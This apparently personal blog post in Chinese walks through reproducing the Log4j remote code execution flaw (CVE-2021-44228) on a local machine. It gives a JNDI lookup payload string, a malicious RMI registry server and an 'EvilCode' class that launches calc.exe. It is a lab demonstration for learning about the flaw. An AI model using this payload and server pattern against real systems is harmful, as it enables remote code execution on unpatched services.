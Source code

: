```yaml
---
title: "一个只会做开发的小白的 Log4j RCE 漏洞复现过程"
categories: [ "漏洞", "RCE" ]
tags: [ "RCE", "Log4j" ]
draft: false
slug: "log4j-rce"
date: "2021-12-13 17:25:00"
---
```



## 前言

CVE编号：**CVE-2021-44228**



这次的 RCE 漏洞影响确实大，堪称核武器级别，因为其复现极其简单，发出没多久几乎整个 IT 圈都知道了。我一个搞开发的，以往也就关注一些前沿的新技术消息，这次来关注一下安全圈的事件。



Log4j 是 Apache 的一款日志库，用途范围极其广泛，Spring 等框架均包含。



受影响的组件包含但不限于：

- Apache Struts2
- Apache Solr
- Apache Druid
- Apache Flink
- Apache Flume
- Apache Dubbo
- Apache Kafka
- Spring-boot-starter-log4j2
- ElasticSearch



## RCE 过程整理

影响版本：Apache Log4j Core <= 2.14.1



本文的代码仓库：[https://github.com/taurusxin/CVE-2021-44228](https://github.com/taurusxin/CVE-2021-44228)

### 复现

若某一服务中包含有 使用 Log4j 对用户输入内容的日志记录，那么便可触发 RCE

```java
package me.xingez;

import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class Log4jTest {
    private static final Logger LOGGER = LogManager.getLogger();

    public static void main(String[] args) {

        String testPayload = "${jndi:rmi://127.0.0.1/evil}";

        LOGGER.error(testPayload);

    }
}
```

用户构造恶意 jdni 服务，将含有 `${jndi:xxx}` 的字符串提交到后端，记录日志时便可执行 lookup



![计算器成功弹出](https://cdn.taurusxin.com/hugo/2021-12-13/calc.png)



其中我使用的 jndi 服务为 RMI registry，代码如下



`RmiServer.java`

```java
package me.xingez.rmi;

import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class RmiServer {
    public static void main(String[] args) {

        try {
          	// 注册 registry 监听端口
            LocateRegistry.createRegistry(1099);
            Registry registry = LocateRegistry.getRegistry();

            System.out.println("Create RMI registry on port 1099...");
          
          	// 实例化恶意代码类的引用
            Reference reference = new Reference("me.xingez.rmi.EvilCode",
                    "me.xingez.rmi.EvilCode", null);
          
          	// 绑定服务为 evil
            ReferenceWrapper wrapper = new ReferenceWrapper(reference);
            registry.bind("evil", wrapper);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```



`EvilCode.java`

```java
package me.xingez.rmi;

import java.io.IOException;

public class EvilCode {
  	// 当 lookup 时，直接执行该类的静态块
    static {
        try {
            Runtime.getRuntime().exec("calc.exe");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```

声明：以上所有代码块均为安全测试时使用，切勿用于非法用途，使用此代码导致的后果与本人无关。

## 结语

这个漏洞触发简单到用发送一条消息的办法就可以做到，因为我是一名 MC 玩家兼 MC 服务器服主，所以这个问题对我来说是不可忽视的，好在我们服务器现在运行的是最新的 1.18，使用 Java 17，不存在此问题。

最后祝愿这几天修代码的安全工程师、开发者都保重身体健康！